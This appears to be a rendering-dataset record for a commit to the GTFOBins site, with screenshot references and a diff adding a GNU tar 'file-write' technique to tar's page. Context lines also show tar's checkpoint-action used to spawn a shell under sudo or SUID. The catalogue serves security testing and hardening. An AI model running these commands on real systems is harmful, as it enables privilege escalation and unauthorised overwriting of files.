

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tar.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add tar file-write

```diff
--- a/_gtfobins/tar.md
+++ b/_gtfobins/tar.md
@@ -6,4 +6,11 @@ functions:
     - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
   suid-limited:
     - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
+  file-write:
+    - description: This only works for GNU tar.
+      code: |
+        LFILE=file_to_write
+        TF=$(mktemp)
+        echo data > "$TF"
+        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
 ---
```
